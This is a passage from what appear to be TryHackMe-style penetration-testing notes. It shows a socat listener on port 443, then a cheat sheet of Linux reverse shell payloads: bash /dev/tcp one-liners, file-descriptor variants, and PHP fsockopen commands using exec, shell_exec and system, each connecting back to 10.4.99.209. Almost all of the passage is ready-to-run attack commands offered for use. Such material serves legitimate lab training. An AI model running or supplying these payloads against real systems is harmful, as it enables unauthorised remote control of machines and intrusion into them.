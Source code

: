 - **Socat**  
  Flexible socket tool:
  ```
  attacker@kali:~$ socat -d -d TCP-LISTEN:443 STDOUT
  2025/03/30 15:00:00 socat[12345] N listening on AF=2 0.0.0.0:443
  ```
  - `-d -d`: Extra verbose.
  - `TCP-LISTEN:443`: Listens on 443.
  - `STDOUT`: Outputs to terminal.

---

## Reverse Shell Payloads: Linux Edition

Here’s a stash of payloads to spawn reverse shells on Linux. Replace `ATTACKER_IP` and `443` with your setup.

### Bash Payloads
- **Simple Bash**:
  ```
  target@tryhackme:~$ bash -i >& /dev/tcp/10.4.99.209/443 0>&1
  ```
  - Redirects input/output to a TCP socket.

- **Read Line**:
  ```
  target@tryhackme:~$ exec 5<>/dev/tcp/10.4.99.209/443; cat <&5 | while read line; do $line 2>&5 >&5; done
  ```
  - Uses file descriptor 5 for a TCP connection, reads and executes commands.

- **FD 196**:
  ```
  target@tryhackme:~$ 0<&196; exec 196<>/dev/tcp/10.4.99.209/443; sh <&196 >&196 2>&196
  ```
  - File descriptor 196 handles the shell over TCP.

- **FD 5**:
  ```
  target@tryhackme:~$ bash -i 5<> /dev/tcp/10.4.99.209/443 0<&5 1>&5 2>&5
  ```
  - Similar, but with FD 5.

### PHP Payloads
- **exec**:
  ```
  target@tryhackme:~$ php -r '$sock=fsockopen("10.4.99.209",443);exec("sh <&3 >&3 2>&3");'
  ```
  - Opens a socket, runs a shell.

- **shell_exec**:
  ```
  target@tryhackme:~$ php -r '$sock=fsockopen("10.4.99.209",443);shell_exec("sh <&3 >&3 2>&3");'
  ```

- **system**:
  ```
  target@tryhackme:~$ php -r '$sock=fsockopen("10.4.99.209",443);system("sh <&3 >&3 2>&3");'
  ```
